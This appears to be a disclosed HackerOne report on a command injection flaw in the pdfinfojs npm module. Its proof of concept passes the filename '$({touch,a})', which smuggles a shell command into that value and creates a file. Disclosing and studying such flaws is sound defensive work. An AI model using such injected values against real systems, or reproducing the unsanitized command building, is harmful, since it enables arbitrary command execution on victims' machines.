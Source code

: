 # [pdfinfojs] Command Injection on filename parameter

## Report Details
- **Report ID**: 330957
- **URL**: https://hackerone.com/reports/330957
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-29T01:18:13.084Z
- **Disclosed**: 2018-04-19T07:31:54.253Z

## Reporter
- **Username**: caioluders
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hello , there is a Command Injection vulnerability on the "pdfinfojs" module.

# Module

**module name:** pdfinfojs
**version:** 0.3.6
**npm page:** https://www.npmjs.com/package/pdfinfojs

## Module Description

> pdfinfo shell wrapper for Node.js

## Module Stats

10 downloads in the last day
61 downloads in the last week
106 downloads in the last month

# Vulnerability

## Vulnerability Description

> The module appends the filename parameter to the command on the lines [28](https://github.com/fagbokforlaget/pdfinfojs/blob/master/lib/pdfinfo.js#L28), [47](https://github.com/fagbokforlaget/pdfinfojs/blob/master/lib/pdfinfo.js#L47) and [72](https://github.com/fagbokforlaget/pdfinfojs/blob/master/lib/pdfinfo.js#L72) without parsing the user input, thus leading to a Command Injection. 

## Steps To Reproduce:

* Install the module 

```
$ npm install pdfinfojs
```

* Example code, similar to the documentation, with the malicious filename `$({touch,a})` :

```javascript
var pdfinfo = require('pdfinfojs'),
    pdf = new pdfinfo('$({touch,a})'); // Malicious payload

pdf.getInfo(function(err, info, params) {
  if (err) {
    console.error(err.stack);
  }
  else {
    console.log(info); //info is an object
    console.log(params); // commandline params passed to pdfinfo cmd
  }
});
```

*there are a lot of possibles payloads to achieve this, used this brace expansion just because space in the file name sucks*

* Run the code 

```
$ node index.js
Error
    ... it throws an error, but the execution is successful
```
* Check the newly created file 

```
$ ls
a		index.js
```

## Patch

It is advisable to use a module that explicitly isolates the parameters to the `pdfinfo` command.

## Tested on :

- macOS Sierra 10.12.16
- NODEJS v8.4.0
- NPM 5.3.0

**( contacted the maintainer || opened issue ) = False**

## Impact

An attacker can execute arbitrary commands on the victim's machine

## Attachments
No attachments
